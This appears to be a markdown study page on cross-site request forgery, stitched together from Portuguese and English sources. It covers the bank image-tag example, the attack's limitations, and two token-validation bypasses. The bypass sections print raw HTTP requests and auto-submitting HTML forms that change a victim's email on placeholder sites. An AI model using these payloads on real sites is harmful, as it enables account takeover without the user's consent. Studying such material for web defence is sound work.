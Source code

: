 <img src="https://periciacomputacional.com/wp-content/uploads/2018/10/csrf-banner-1280x640.png"/>  

# Como ocorre
O ataque funciona através da inclusão de um link ou script numa página que acede a um site no qual se sabe (ou se supõe) que o utilizador tenha sido autenticado.[5] Por exemplo, um usuário, Bob, pode estar a navegar num fórum de bate-papo onde outro usuário, Fred, postou uma mensagem. Suponha-se que Fred tenha criado um elemento da imagem HTML que faz referência a uma ação no site do banco de Bob (em vez de um arquivo de imagem), por exemplo,

<i> < img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=Fred" /> </i>

Se o banco de Bob mantém a sua informação de autenticação num cookie, e se o cookie não expirou, então a tentativa do browser de Bob de carregar a imagem irá submeter o formulário de levantamento com o seu cookie, assim, autorizando uma transação sem a aprovação de Bob. A falsificação de solicitação entre sites é um ataque do tipo Confused deputy contra um navegador Web. O deputy no exemplo do banco é o navegador Web de Bob que é confundido para fazer mau uso da autoridade de Bob na direção de Fred.

As seguintes características são comuns ao CSRF:

Envolvem sites que dependem de uma identificação do usuário
Exploram a confiança do site nessa identificação
Iludem o navegador do usuário para o envio de solicitações HTTP para um site de destino
Envolvem solicitações HTTP que têm efeitos colaterais
Os riscos são as aplicações Web que executam ações com base na confiança e autenticação das entradas dos usuários, sem exigir que o usuário autorize a ação específica. Um usuário que é autenticado por um cookie guardado no navegador web do usuário, sem saber, pode enviar um pedido HTTP a um site que confia no usuário e, assim, fazer uma ação indesejada.

Ataques CSRF em tags de imagem muitas vezes são feitas a partir de fóruns na Internet, onde os usuários têm permissão para postar imagens, mas não JavaScript.


https://www.treinaweb.com.br/blog/cross-site-request-forgery-csrf-e-abordagens-para-mitiga-lo/

<img src="https://www.infosec.com.br/wp-content/uploads/2017/07/cross-site-request-forgery.png" width="750"/>  

# Limitações
Várias coisas têm que acontecer para que um cross-site request forgery tenha sucesso:

<ul>
  <li> O atacante deve ter como alvo tanto um site que não verifica o campo Referer do cabeçalho HTTP (que é comum) ou uma vítima com um bug no navegador ou plug-in que permite alterar o campo Referer (o que é raro).</li>
  <li>O atacante deve encontrar uma submissão do formulário no local de destino, ou uma URL que tem efeitos colaterais, que faz algo (por exemplo, transferências de dinheiro, ou mudanças de endereço da vítima e-mail ou senha).</li>
  <li>O atacante deve determinar os valores corretos para todos os formulários ou entradas URL; se qualquer um deles são obrigados a serem os valores de autenticação secreta ou identificações que o atacante não pode adivinhar, o ataque irá falhar.</li>
  <li>O atacante deve atrair a vítima para uma página Web com código malicioso enquanto a vítima está conectada ao site de destino.</li>
</ul>
<br/>
Nota-se que o ataque é cego, ou seja, o invasor não pode ver o que o site-alvo envia de volta à vítima, em resposta aos pedidos forjados, a menos que ele explore um cross-site scripting ou outro bug no site do alvo. Da mesma forma, o atacante só pode ter como alvo algum link ou apresentar qualquer formulário que surge após o pedido inicial forjado, se essas relações subsequentes ou formulários são igualmente previsíveis. (Alvos múltiplos podem ser simulados, incluindo várias imagens em uma página, ou usando JavaScript para introduzir um atraso entre os cliques). Dadas essas limitações, um atacante pode ter dificuldade em encontrar registros das vítimas ou envios de formulários atacáveis. Por outro lado, as tentativas de ataque são fáceis de montar e invisíveis às vítimas, e projetistas de aplicações são menos familiarizados e preparados para ataques CSRF do que para, digamos, ataques de adivinhação de senha dicionari

# Validation of CSRF token depends on request method
Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used.

In this situation, the attacker can switch to the GET method to bypass the validation and deliver a CSRF attack:
<i>
GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
 </i>
 
 Exploit example:
 ``` html
  <form method="GET" action="https://vulnerablesite/email/change-email">
     <input type="hidden" name="csrf" value="1iOsHyPVwSb0j6eFXwmd4zen1qvYrhs2">
     <input type="email" name="email" value="atackers@email.com">
  </form>
  <script>
      document.forms[0].submit();
  </script>
```

# Validation of CSRF token depends on token being present
Some applications correctly validate the token when it is present but skip the validation if the token is omitted.

In this situation, the attacker can remove the entire parameter containing the token (not just its value) to bypass the validation and deliver a CSRF attack:
<i>
  POST /email/change HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 25
  Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm

  email=pwned@evil-user.net
</i>

Exploit example:
 ``` html
  <form method="POST" action="https://vulnerablesite/email/change-email">                        
    <input type="hidden" name="email" value="atacker@email">                    
  </form>
<script>
      document.forms[0].submit();
</script>

```
